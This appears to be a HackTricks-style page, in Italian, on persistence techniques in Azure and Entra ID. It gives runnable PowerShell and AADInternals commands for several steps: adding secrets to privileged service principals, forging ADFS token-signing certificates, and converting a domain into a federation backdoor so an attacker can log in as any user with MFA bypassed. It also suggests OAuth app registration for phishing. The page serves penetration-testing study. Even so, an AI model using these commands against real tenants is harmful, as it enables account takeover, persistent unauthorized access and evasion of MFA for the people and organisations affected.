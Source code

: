 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### OAuth Application

Per impostazione predefinita, qualsiasi utente può registrare un'applicazione in Entra ID. Quindi puoi registrare un'applicazione (solo per il tenant target) che necessita di permessi ad alto impatto con consenso dell'amministratore (approvala se sei l'amministratore) - come inviare email per conto di un utente, gestione dei ruoli, ecc. Questo ci permetterà di **eseguire attacchi di phishing** che sarebbero molto **fruttuosi** in caso di successo.

Inoltre, potresti anche accettare quell'applicazione con il tuo utente come modo per mantenere l'accesso su di essa.

### Applications and Service Principals

Con i privilegi di Application Administrator, GA o un ruolo personalizzato con permessi microsoft.directory/applications/credentials/update, possiamo aggiungere credenziali (segreto o certificato) a un'applicazione esistente.

È possibile **prendere di mira un'applicazione con permessi elevati** o **aggiungere una nuova applicazione** con permessi elevati.

Un ruolo interessante da aggiungere all'applicazione sarebbe il **ruolo di amministratore dell'autenticazione privilegiata** poiché consente di **reimpostare la password** degli Amministratori Globali.

Questa tecnica consente anche di **bypassare MFA**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Per l'autenticazione basata su certificati
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Con **privilegi DA** su AD on-prem, è possibile creare e importare **nuovi certificati di firma del token** e **certificati di decrittazione del token** che hanno una validità molto lunga. Questo ci permetterà di **accedere come qualsiasi utente** il cui ImuutableID conosciamo.

**Esegui** il comando qui sotto come **DA sui server ADFS** per creare nuovi certificati (password predefinita 'AADInternals'), aggiungerli a ADFS, disabilitare il rollover automatico e riavviare il servizio:
```bash
New-AADIntADFSSelfSignedCertificates
```
Quindi, aggiorna le informazioni sul certificato con Azure AD:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federazione - Dominio Fidato

Con privilegi GA su un tenant, è possibile **aggiungere un nuovo dominio** (deve essere verificato), configurare il suo tipo di autenticazione su Federato e configurare il dominio per **fidarsi di un certificato specifico** (any.sts nel comando sottostante) e dell'emittente:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Riferimenti

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
